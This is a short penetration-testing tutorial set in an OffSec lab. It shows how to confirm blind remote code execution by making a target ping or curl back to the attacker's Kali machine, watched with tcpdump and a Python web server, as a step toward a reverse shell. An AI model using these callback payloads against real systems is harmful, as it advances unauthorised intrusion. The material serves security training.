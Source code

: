# Validating RCE with Ping
Often RCE (Remote Code Execution) will be completely blind, but we can infer some information based on a variety of factors, but one of the easiest ways to confirm that code execution is happening (even if our shells aren't catching!) is to see if we can get some network traffic back to our Attacking machine.

In this example, I will be using one of the vulnerable machines from OffSec's PEN-200 but do not worry there will be no spoilers or details regarding the box.

## We have code execution (I think?)
In this scenario, let's say you've found an exploit and are trying to get a reverse shell. You cannot get feedback (such as installed libraries) in order to specifically target something installed, and you begin doubting whether your RCE even works or not.

In this case, there are two tools I typically use to validate RCE **Ping** and **Curl**. These are typically installed on linux or windows and can be used to validate our RCE let's look.

![alt text](https://github.com/reallywhoknows/Public-Resources/blob/main/tips/Images/rce-w-ping1.png?raw=true)

It says it works but I don't know if it's true or not!

Let's start with **Ping**

**Ping** uses a protocol called *icmp* which may not always respond on a host. We may need to verify that we don't automatically block that sort of traffic. We'll start with starting a listener in Kali and specify *icmp* traffic.
```
sudo tcpdump -n -i tun0 icmp
```
![alt text](https://github.com/reallywhoknows/Public-Resources/blob/main/tips/Images/rce-w-ping2.png?raw=true)

Now let's go ahead and attempt our RCE with the payload `ping kali_ip`. As a special note, make sure if you're pinging on linux to limit the amount of pings using `-c4` or it'll never stop bothering you.
![alt text](https://github.com/reallywhoknows/Public-Resources/blob/main/tips/Images/rce-w-ping3.png?raw=true)

Another method **curl**

**Curl** is a pretty simple, but extremely useful tool that lets us pool web traffic from our command line. We'll want to host a simple webserver with python which will include logs whenever someone accesses it or downloads something. This can be used to validate that our victim is executing our code.
```
python3 -m http.server 80
```
![alt text](https://github.com/reallywhoknows/Public-Resources/blob/main/tips/Images/rce-w-ping4.png?raw=true)

Now all we have to is edit our payload utilizing **curl** and see if our webserver gets an visitors. `curl http://kali_ip/`
![alt text](https://github.com/reallywhoknows/Public-Resources/blob/main/tips/Images/rce-w-ping5.png?raw=true)

Perfect! Now with this, we know for sure code execution is happening, we just need to trouble shoot *why* our payload isn't executing as intended, whether it's a firewall, write permissions or binaries not being available.